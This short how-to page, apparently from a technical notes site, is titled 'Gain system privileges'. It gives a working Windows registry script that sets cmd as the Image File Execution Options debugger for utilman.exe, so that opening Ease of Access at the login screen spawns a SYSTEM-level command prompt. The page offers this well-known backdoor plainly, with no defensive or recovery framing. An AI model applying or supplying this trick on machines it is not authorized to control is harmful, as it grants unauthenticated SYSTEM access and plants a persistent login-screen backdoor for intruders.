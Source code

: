 # Gain system privileges

The following registry script will attach `cmd` as a debugger to `utilman.exe`.

```reg title='utilman-attach-debugger.reg'
Windows Registry Editor Version 5.00

[HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\utilman.exe]
"Debugger"="cmd /c start cmd"
```

When you now restart your computer and start up Ease of Access before logging in, you'll get a cmd window with system privileges.
